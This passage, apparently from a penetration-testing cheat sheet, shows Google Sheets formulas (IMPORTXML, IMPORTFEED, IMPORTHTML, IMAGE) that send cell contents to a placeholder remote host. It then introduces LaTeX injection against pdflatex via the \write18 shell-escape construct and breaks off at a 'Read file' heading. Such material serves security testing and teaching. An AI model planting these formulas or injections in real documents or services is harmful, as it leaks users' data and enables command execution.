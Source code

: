 ### Google Sheets OOB Data Exfiltration

Firstly, let’s introduce some of the more interesting functions.

**CONCATENATE**: Appends strings to one another.

```
=CONCATENATE(A2:E2)
```

**IMPORTXML**: Imports data from various structured data types including XML, HTML, CSV, TSV, and RSS and ATOM XML feeds.

```
=IMPORTXML(CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)), "//a/a10")
```

**IMPORTFEED**: Imports a RSS or ATOM feed.

```
=IMPORTFEED(CONCAT("http://[remote IP:Port]//123.txt?v=", CONCATENATE(A2:E2)))
```

**IMPORTHTML**: Imports data from a table or list within an HTML page.

```
=IMPORTHTML (CONCAT("http://[remote IP:Port]/123.txt?v=", CONCATENATE(A2:E2)),"table",1)
```

**IMPORTRANGE**: Imports a range of cells from a specified spreadsheet.

```
=IMPORTRANGE("https://docs.google.com/spreadsheets/d/[Sheet_Id]", "sheet1!A2:E2")
```

**IMAGE**: Inserts an image into a cell.

```
=IMAGE("https://[remote IP:Port]/images/srpr/logo3w.png")
```

## LaTeX Injection

Usually the servers that will find on the internet that **convert LaTeX code to PDF** use **`pdflatex`**.\
This program uses 3 main attributes to (dis)allow command execution:

* **`--no-shell-escape`**: **Disable** the `\write18{command}` construct, even if it is enabled in the texmf.cnf file.
* **`--shell-restricted`**: Same as `--shell-escape`, but **limited** to a 'safe' set of **predefined** \*\*commands (\*\*On Ubuntu 16.04 the list is in `/usr/share/texmf/web2c/texmf.cnf`).
* **`--shell-escape`**: **Enable** the `\write18{command}` construct. The command can be any shell command. This construct is normally disallowed for security reasons.

However, there are other ways to execute commands, so to avoid RCE it's very important to use `--shell-restricted`.

### Read file <a href="#read-file" id="read-file"></a>
